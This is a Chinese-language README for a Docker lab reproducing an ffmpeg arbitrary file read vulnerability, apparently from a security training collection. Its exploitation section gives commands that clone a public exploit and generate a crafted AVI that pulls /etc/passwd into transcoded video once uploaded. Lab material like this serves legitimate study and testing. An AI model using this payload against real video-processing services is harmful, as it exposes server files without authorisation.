

# ffmpeg 任意文件读取漏洞环境

参考资料：

 - http://bobao.360.cn/learning/detail/4032.html
 - https://hackerone.com/reports/242831
 - https://github.com/neex/ffmpeg-avi-m3u-xbin

## 环境搭建

编译及启动环境

```
docker-compose build
docker-compose up -d
```

环境启动后监听8080端口，访问`http://your-ip:8080/`即可查看。

## 漏洞利用

漏洞原理不再赘述，直接下载exp，并生成payload：

```
# 下载exp
git clone https://github.com/neex/ffmpeg-avi-m3u-xbin
cd ffmpeg-avi-m3u-xbin

# 生成payload
./gen_xbin_avi.py file:///etc/passwd exp.avi
```

生成exp.avi，在`http://your-ip:8080/`上传。后端将会将你上传的视频用ffmpeg转码后显示，转码时因为ffmpeg的任意文件读取漏洞，可将文件信息读取到视频中：



你也可以执行`docker-compose exec web bash`进入本环境内部，测试ffmpeg。
